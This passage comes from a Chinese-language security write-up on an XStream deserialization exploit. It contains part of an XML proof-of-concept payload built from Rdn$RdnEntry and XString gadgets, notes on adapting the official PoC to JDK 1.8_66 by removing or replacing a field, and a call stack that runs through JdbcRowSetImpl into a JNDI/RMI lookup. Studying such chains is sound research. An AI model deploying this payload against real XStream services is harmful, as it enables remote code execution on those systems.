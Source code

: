 ```plain
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

官方的 POC 和这个不太一致，使用后会报如下错误

```plain
---- Debugging information ----
message             : No such field com.sun.org.apache.xml.internal.dtm.ref.DTMManagerDefault._overrideDefaultParser
field               : _overrideDefaultParser
class               : com.sun.org.apache.xml.internal.dtm.ref.DTMManagerDefault
required-type       : com.sun.org.apache.xml.internal.dtm.ref.DTMManagerDefault
converter-type      : com.thoughtworks.xstream.converters.reflection.ReflectionConverter
path                : /sorted-set/javax.naming.ldap.Rdn$RdnEntry/value/m_DTMXRTreeFrag/m_dtm/m_mgrDefault/_overrideDefaultParser
```

这里表示 com.sun.org.apache.xml.internal.dtm.ref.DTMManagerDefault 类中没有\_overrideDefaultParser 这个字段，于是查阅了 JDK1.8\_66 外部包的这个类，确实没有找到该字段，于是就删除了官方 POC 中下面这句就得到了以上的 POC

```plain
<__overrideDefaultParser>false</__overrideDefaultParser>
```

这里猜测应该是跟 JDK 版本有关，经查阅资料，这个属性在 JDK 低版本中是没有的，相关的博客也提到，可以更换成下面这句

```plain
<__useServicesMechanism>false</__useServicesMechanism>
```

**分析**  
函数调用栈

```plain
getObjectFactoryFromReference:142, NamingManager (javax.naming.spi)
getObjectInstance:319, NamingManager (javax.naming.spi)
decodeObject:464, RegistryContext (com.sun.jndi.rmi.registry)
lookup:124, RegistryContext (com.sun.jndi.rmi.registry)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:417, InitialContext (javax.naming)
connect:624, JdbcRowSetImpl (com.sun.rowset)
setAutoCommit:4067, JdbcRowSetImpl (com.sun.rowset)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
parseSome:373, IncrementalSAXSource_Xerces (com.sun.org.apache.xml.internal.dtm.ref)
deliverMoreNodes:312, IncrementalSAXSource_Xerces (com.sun.org.apache.xml.internal.dtm.ref)
nextNode:814, SAX2DTM (com.sun.org.apache.xml.internal.dtm.ref.sax2dtm)
_firstch:535, DTMDefaultBase (com.sun.org.apache.xml.internal.dtm.ref)
getStringValue:1294, SAX2DTM (com.sun.org.apache.xml.internal.dtm.ref.sax2dtm)
str:207, XRTreeFrag (com.sun.org.apache.xpath.internal.objects)
toString:314, XObject (com.sun.org.apache.xpath.internal.objects)
```